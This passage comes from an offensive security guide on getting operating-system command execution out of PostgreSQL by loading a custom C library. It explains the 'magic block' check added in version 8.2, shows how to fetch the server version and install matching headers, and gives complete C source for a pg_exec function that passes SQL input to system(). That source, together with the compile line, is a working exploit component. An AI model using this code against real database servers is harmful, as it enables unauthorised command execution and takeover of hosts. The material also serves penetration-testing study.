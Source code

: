 <details><summary>Write binary file from base64</summary></details>

However, when attempted on greater versions **the following error was shown**:

```c
ERROR:  incompatible library “/lib/x86_64-linux-gnu/libc.so.6”: missing magic block
HINT:  Extension libraries are required to use the PG_MODULE_MAGIC macro.
```

This error is explained in the [PostgreSQL documentation](https://www.postgresql.org/docs/current/static/xfunc-c.html):

> To ensure that a dynamically loaded object file is not loaded into an incompatible server, PostgreSQL checks that the file contains a “magic block” with the appropriate contents. This allows the server to detect obvious incompatibilities, such as code compiled for a different major version of PostgreSQL. A magic block is required as of PostgreSQL 8.2. To include a magic block, write this in one (and only one) of the module source files, after having included the header fmgr.h:
>
> `#ifdef PG_MODULE_MAGIC`\
> `PG_MODULE_MAGIC;`\
> `#endif`

Since PostgreSQL version 8.2, the process for an attacker to exploit the system has been made more challenging. The attacker is required to either utilize a library that is already present on the system or to upload a custom library. This custom library must be compiled against the compatible major version of PostgreSQL and must include a specific "magic block". This measure significantly increases the difficulty of exploiting PostgreSQL systems, as it necessitates a deeper understanding of the system's architecture and version compatibility.

#### Compile the library

Get the PsotgreSQL version with:

```sql
SELECT version();
PostgreSQL 9.6.3 on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18) 6.3.0 20170516, 64-bit
```

For compatibility, it is essential that the major versions align. Therefore, compiling a library with any version within the 9.6.x series should ensure successful integration.

To install that version in your system:

```bash
apt install postgresql postgresql-server-dev-9.6
```

And compile the library:

```c
//gcc -I$(pg_config --includedir-server) -shared -fPIC -o pg_exec.so pg_exec.c
#include <string.h>
#include "postgres.h"
#include "fmgr.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

PG_FUNCTION_INFO_V1(pg_exec);
Datum pg_exec(PG_FUNCTION_ARGS) {
    char* command = PG_GETARG_CSTRING(0);
    PG_RETURN_INT32(system(command));
}
```
